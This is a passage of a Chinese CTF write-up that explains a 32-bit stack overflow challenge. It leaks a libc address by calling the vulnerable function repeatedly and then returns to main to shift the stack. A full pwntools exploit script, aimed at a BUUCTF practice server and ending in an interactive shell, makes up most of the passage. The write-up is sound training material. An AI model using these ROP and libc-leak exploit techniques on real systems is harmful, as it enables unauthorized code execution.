 有了libc之后，我们需要考虑如何执行system函数。要知道，我们只能溢出4个字节。别慌，我们有main函数。在进入vul函数时，memset只会将前20个字符清零，而对后面的不作处理，这就给了我们一丝机会。我们想把"\bin\sh"的地址写到返回地址的后面，肯定不能直接溢出，因为长度不够。所以我们干脆就返回到main函数中，要知道main函数也是占用一定的栈空间的，这样做可以让下一次执行vul函数时的栈向下压。这样原先写到栈上的"\bin\sh"地址就到了函数返回地址的后面去了。

![](https://img-blog.csdnimg.cn/41d684be9aa04ef2873caabce063d9e9.png)
这个过程建议通过gdb调试一下加深理解。

exp:
```python
from pwn import *
from LibcSearcher import *

context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25990)
elf = ELF('./pwn')

# repeat 3 times of function vul to reach address of __libc_start_main + 241
io.sendafter(b'Welcome, my friend. What\'s your name?\n', cyclic(0x30))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(elf.symbols['vul']))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(elf.symbols['vul']))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

# fourth time, we can get the address of libc
io.send(cyclic(0x2c) + p32(elf.symbols['vul']))

# gdb.attach(io)

io.recv()
rc = io.recv()
print(rc)
libc_start_main = u32(rc[-5:-1]) - 241
print(hex(libc_start_main))
libc = LibcSearcher('__libc_start_main', libc_start_main)

base = libc_start_main - libc.dump('__libc_start_main')
print(hex(base))
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
print('system: ' + hex(sys))
print('binsh: ' + hex(binsh))
# gdb.attach(io)
io.send(cyclic(0x20) + p32(binsh) * 3 +  p32(elf.symbols['main']))
# return to vul to adjust stack environment
io.sendafter(b'Welcome, my friend. What\'s your name?\n', cyclic(0x2c) + p32(sys))
io.sendafter(b'Hello', cyclic(0x2c) + p32(elf.symbols['vul']))
io.recvuntil(b'Hello')

io.send(cyclic(0x2c) + p32(sys))
io.sendafter(b'Hello', cyclic(0x2c) + p32(sys))

io.interactive()
```
# buu029-jarvisoj_tell_me_something
```python
```